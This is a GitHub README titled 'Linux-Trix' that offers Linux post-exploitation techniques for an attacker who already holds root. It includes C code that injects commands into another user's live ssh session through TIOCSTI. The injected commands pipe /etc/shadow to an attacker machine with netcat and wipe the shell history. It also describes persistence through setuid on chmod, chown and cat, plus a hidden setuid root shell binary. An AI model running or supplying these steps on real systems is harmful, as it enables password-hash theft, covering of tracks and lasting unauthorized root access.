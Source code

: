 # Linux-Trix
An assortment of techniques that can be used to exploit Linux.  Most of these assume that you have or can attain root privileges on the host.  You will need to change IP addresses and other references in the examples to fit your environment.

## Stuffing commands into an existing ssh session

**This example assumes the following**<br />
* The attacking Linux machine (A) is 192.168.1.7
* The victim Linux machine (B) is 192.168.1.5
* The remote host (C) that a user on (B) has an ssh session open to is 192.168.10.10

**You have aquired root on a target (B), check for active ssh client sessions to other remote hosts**<br />
`ps -ef | grep ssh | grep @`

Example output, you see user "bill" on "pts/1" connected to a remote host (C) as "root".<br />
`bill     18953 18855  0 08:42 pts/1    00:00:00 ssh root@192.168.10.10`

Compile the following C code on (B) as `ptshijack.c` to get `/etc/shadow` from (C).<br />
```c
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>

// gcc ptshijack.c -o ptshijack

int main() {
    int fd = open("/dev/pts/1", O_RDWR);
    if (fd < 0) {
        perror("open");
        return -1;
    }
    // your commands to execute go here.
    char *x = "(cat /etc/shadow | nc 192.168.1.7 4444) &\nhistory -c\nclear\n";
    while (*x != 0) {
        int ret = ioctl(fd, TIOCSTI, x);
        if (ret == -1) {
            perror("ioctl()");
        }
        x++;
    }
    return 0;
}
```

**Start netcat on (A) to receive** `/etc/shadow` **from (C)**<br />
```nc -nlvp 4444```

**Execute** `ptshijack` **on (B) to send** `/etc/shadow` **from (C) to (A)**<br />
SIGINT (ctrl-c) netcat on (A) to terminate the background process on (C)<br />

## Persistence with setuid

Once you have root on a system leave these behind to exploit later:<br >
* `chmod u+s /usr/bin/chmod` and `chmod u+s /usr/bin/chown`, will allow you to create files as an ordinary user that execute as root.
* `chmod u+s /usr/bin/cat` will allow you to view `/etc/shadow` as an ordinary user.
* Compile the following C program as a hidden binary and setuid as root.<br />
```c
// gcc -o .setuid-shell setuid-shell.c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <grp.h>

int main(int argc, char **argv)
{
   initgroups("root", 0);
   setgid(0);
   setuid(0);
   execve("/bin/bash", NULL, NULL);

   return 0;
}
```
setuid as root `chown root:root .setuid-shell` then `chmod u+s .setuid-shell`<br />
Now execute `.setuid-shell` and see that you are root by issuing the `id` command.
